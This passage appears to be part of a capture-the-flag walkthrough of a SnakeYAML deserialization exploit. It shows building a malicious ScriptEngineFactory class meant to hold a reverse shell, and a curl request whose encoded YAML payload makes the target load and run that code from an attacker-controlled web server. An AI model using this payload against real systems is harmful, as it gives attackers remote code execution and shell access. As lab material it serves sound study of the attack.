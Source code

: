__setup__
```bash
❯ tree
.
├── Exploit.class
├── Exploit.java
└── META-INF
    └── services
        └── javax.script.ScriptEngineFactory
```

`javax.script.ScriptEngineFactory` invokes `Exploit.class` compiled from [`Exploit.java`](https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java) which use ScriptEngine interface methods to execute arbitrary commands.

before compiling `Exploit.java` put reverse shell in the `Exploit` function and than compile
```bash
javac Exploit.java
```

![](screenshots/put-rev-shell.png)

and `javax.script.ScriptEngineFactory` contains compiled class path.
```bash
❯ cat META-INF/services/javax.script.ScriptEngineFactory
Exploit
```

__Start web server and execute SnakeYAML Marshaling payload__
```bash
curl -s -X POST \
  --data-binary $'data=%21%21javax.script.ScriptEngineManager+%5B%0D%0A++%21%21java.net.URLClassLoader+%5B%5B%0D%0A++++%21%21java.net.URL+%5B%22http%3A%2F%2F10.10.15.71%3A8000%2F%22%5D%0D%0A++%5D%5D%0D%0A%5D' \
  $'http://10.10.10.227:8080/Servlet'
```

![](screenshots/web-shell.png)

# Privesc:wasm_reversing

